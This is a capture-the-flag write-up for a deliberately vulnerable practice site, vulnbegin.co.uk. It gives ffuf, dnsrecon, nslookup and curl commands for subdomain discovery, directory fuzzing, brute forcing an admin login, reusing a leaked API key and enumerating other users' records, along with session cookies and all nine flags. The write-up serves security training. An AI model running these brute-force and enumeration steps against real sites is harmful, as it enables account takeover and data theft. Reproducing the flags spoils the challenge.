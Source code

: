 ```yaml
---
ctf: cft_challenges
competition: false
categories: [web]
tools: [nslookup, dnsrecon, curl, fuff, seq]
url: https://ctfchallenge.com/challenges/6
points: 900
captured: 2022-05-05
flag: [^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^, ^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^, ^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^, ^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^, ^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^, ^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^, ^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^, ^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^, ^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]
summary: An introductory vulnerable website to learn about DNS records, sudomain and password bruteforcing, and account takeover.
---
```

## Flag 1 
```
[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]
```
- Subdomain Discovery: DNS Server Records
	- Interrogate DNS to discover subdomains to get an idea about the size and scale of the application using `nslookup`
		- You may find `TXT` record, for example, that tells us information like how a domain might protect against spam or a string that authentications 3rd party services
- Use `nslookup` to find a `TXT` record that contains a flag

```shell
nslookup -type=any vulnbegin.co.uk 8.8.8.8
```

## Flag 2 
```
[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]
```
-  Subdomain Discovery: DNS Bruteforce
	- Try to find subdomains by fuzzing using `dnsrecon` and the `subdomains.txt` file and seeing if we can pull a record from it.
- Brute force domains (using `dnsrecon`) to find `server.vulnbegin.co.uk`. Visit it and be sure to set the cookie.
		
```shell
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt
```

## Flag 3
```
[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]
```
- Subdomain Discovery: SSL Cert Records
	- A public record gets created whenever an SSL certificate is generated for a website, i.e., if you have an SSL, someone will be able to find the subdomain
	- [https://crt.sh](https://crt.sh) is an online database to search for registered SSL certs
- Search [https://crt.sh](https://crt.sh) for SSL certs for subdomains to find `http://v64hss83.vulnbegin.co.uk/`. Visit it and be sure to set the cookie.
	
```shell
curl https://crt.sh/json?q=vulnbegin.co.uk | jq .
curl -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://v64hss83.vulnbegin.co.uk/
```

## Flag 4
```
[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]
```
- Fuzz for subdirectories and files using `fuff`  using the `content.txt` wordlist to find `/robots.txt`. Once there, you'll find `/secret_d1rect0ry`. Visit it and be sure to set the cookie.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/FUZZ -mc all -fc 404

cpadmin                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 23ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 25ms]
robots.txt              [Status: 200, Size: 41, Words: 3, Lines: 2, Duration: 24ms]

curl 'http://vulnbegin.co.uk/secret_d1rect0y/' -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" 
```

## Flag 5
```
[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]
```
- After fuzzing, visit `/cpadmin`, which will redirect to a login page at `/cpadmin/login`. Use `fuff` to brute force the form.
- Fuzz the username using `fuff`  using the `Username is invalid` as a failure test string to find the `admin` username. Then fuzz the password using `fuff`  using the `Password is invalid` as a failure test string. Then login.

```shell
ffuf -w ~/wordlists/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Username is invalid'
________________________________________________
admin                   [Status: 200, Size: 1483, Words: 422, Lines: 37]

ffuf -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Password is invalid'
________________________________________________
159753                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

## Flag 6
```
[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]
```
- When logged into `/cpadmin`, scan the `/cpadmin` directory using the cookie token that gets set in the browser. This reveals `/cpadmin/env` which is a JSON file that contains a flag and an `api-key`

```shell
$ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873; ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ -mc all -fc 404 run
________________________________________________
env                     [Status: 200, Size: 111, Words: 2, Lines: 1]

curl 'http://vulnbegin.co.uk/cpadmin/env' -H 'Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873;ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9'
```

## Flag 7
```
[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]
```
- Visiting `/cpadmin/env` gave us an `X-Token` API key. If we set that as a header to a request back to the `server` subdomain (where we originally got  a flag but also a "User Not Authenticated" error), we then get a new flag and a "User Authenticated" message.

```shell
curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk
```

## Flag 8
```
[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]
```
- Now that we have the `X-Token` header, we can fuzz for any files or directories that not return a `200`  on the `server` subdomain using the `content.txt` wordlist. 
- This reveals a `/user` endpoint. Visiting `/user` with our `X-Token` header reveals a JSON payload containing a new `/user/27` endpoint.
- This returns yet another JSON payload with a `vulbegin_website` username and `/user/27/info` endpoint
- This returns yet another JSON payload, this time containing a flag.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/FUZZ -mc all -fc 404
________________________________________________
user                    [Status: 200, Size: 89, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27/info
```

## Flag 9
```
[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]
```
- Now that we know about the `/user/:id` endpoint, we can fuzz for any other users who we might be able to see.
- This reveals `/user/5`. When we visit it, we get a 403 authentication error.
- We also know about `/user/:id/info`, when we visit that, we get a JSON payload that contains a username of `"admin"`, a description, and a flag.

```shell
seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404
________________________________________________

5                       [Status: 403, Size: 48, Words: 9, Lines: 1]
27                      [Status: 200, Size: 70, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5/info
```
